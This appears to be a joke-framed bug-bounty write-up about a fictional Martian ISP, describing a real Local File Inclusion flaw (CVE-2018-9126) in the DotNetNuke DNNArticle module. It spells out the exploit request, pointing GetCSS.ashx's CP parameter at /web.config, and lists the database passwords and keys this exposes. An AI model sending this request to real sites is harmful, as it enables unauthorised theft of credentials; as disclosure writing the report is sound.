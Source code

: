 # ISP from Mars - bug report
![ISP from Mars](https://media1.tenor.com/images/bbb7aeebfd93a357822cd6f0b0f4327f/tenor.gif?itemid=10668963)
##### Note: This is a totally imaginary internet service provider bug report. anything beyond that isn't true.
#
#
## Vulnerbility Details:
#### **Title:** Vulnerbility Exposure of Sensitive Information to an Unauthorized Actor
#### **Severity:** Critical
#### **Domain:** ISPfromMars.NotOM
#### **OVE-ID:** CVE-2018-9126
#
#
## Introduction:
``
This is a bug report on an imaginary multi-billion dollar ISP located in Mars under domain name of ISPfromMars.NotOM
A company responsible for providing aliens with 10G internet services. A really good ISP but it only needs hard workers that actually care about the aliens personal data and the company's own security.
``

`` 
After this report the company created a new concept to all  living beings, it helped them prevent vulnerabilities like this from falling into the wrong hands(black hat aliens). They called it BugBounty 🤐
``
#
## Vulnerbility description: 

``The vulnerbility can be described in simple words as a Local File Inclusion **LFI** vulnerbility.``
``The site ISPfromMars.NotOM runs the good old DotNetNuke framework which has been proven not to be the best choice in regards of frameworks to use.``

``DotNetNuke has desktopmodules just like how wordpress has plugins. One of the Modules used in ISPfromMars.NotOM was 'DNNArticle' this module can be used to get css files for example:``

       https://ISPfromMars.NotOM/desktopmodules/DNNArticle/GetCSS.ashx/?CP=/SomeCSSfile.css&smid=512&portalid=3 
#
#### How can this be exploited 🤔 ?

``An attacker can simply replace the css file with /web.config this will litrally Get the contents of the web.config file and provide it to the attacker. this attack would look like this: ``

         https://ISPfromMars.NotOM/desktopmodules/DNNArticle/GetCSS.ashx/?CP=/web.config&smid=512&portalid=3 
#### Web.config example output:
![](https://www.msdigest.net/wp-content/uploads/2016/06/image_thumb-1.png)
#
## Impact:
#### The attacker can get the contents of the web.config which contains sensitive database information such as :
> #####  - DataBase name
> ##### - DataBase passwords.
> #####  - DataBase usernames.
> #####  - Encryption keys.
> #####  - SMTP users.
> #####  - and other extremely sensitive credentials.
#
#
#### simple attack ...
